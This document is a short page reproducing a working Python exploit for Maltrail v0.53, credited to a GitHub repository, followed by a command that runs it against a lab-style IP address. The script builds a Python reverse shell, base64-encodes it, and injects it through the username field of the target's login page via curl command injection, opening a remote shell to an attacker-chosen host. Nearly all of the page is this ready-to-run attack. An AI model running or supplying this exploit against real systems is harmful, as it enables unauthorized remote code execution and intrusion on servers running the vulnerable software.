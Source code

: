 
Exploit from [https://github.com/spookier/Maltrail-v0.53-Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit).

```python
'''
  ██████  ██▓███   ▒█████   ▒█████   ██ ▄█▀ ██▓▓█████  ██▀███  
▒██    ▒ ▓██░  ██▒▒██▒  ██▒▒██▒  ██▒ ██▄█▒ ▓██▒▓█   ▀ ▓██ ▒ ██▒
░ ▓██▄   ▓██░ ██▓▒▒██░  ██▒▒██░  ██▒▓███▄░ ▒██▒▒███   ▓██ ░▄█ ▒
  ▒   ██▒▒██▄█▓▒ ▒▒██   ██░▒██   ██░▓██ █▄ ░██░▒▓█  ▄ ▒██▀▀█▄  
▒██████▒▒▒██▒ ░  ░░ ████▓▒░░ ████▓▒░▒██▒ █▄░██░░▒████▒░██▓ ▒██▒
▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░░ ▒░▒░▒░ ░ ▒░▒░▒░ ▒ ▒▒ ▓▒░▓  ░░ ▒░ ░░ ▒▓ ░▒▓░
░ ░▒  ░ ░░▒ ░       ░ ▒ ▒░   ░ ▒ ▒░ ░ ░▒ ▒░ ▒ ░ ░ ░  ░  ░▒ ░ ▒░
░  ░  ░  ░░       ░ ░ ░ ▒  ░ ░ ░ ▒  ░ ░░ ░  ▒ ░   ░     ░░   ░ 
      ░               ░ ░      ░ ░  ░  ░    ░     ░  ░   ░     
'''

import sys;
import os;
import base64;

def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

if __name__ == "__main__":
  main()
```

<br>

To run the exploit:

```bash
python3 exploit.py 10.10.14.80 5454 http://10.10.11.224:55555/local
```
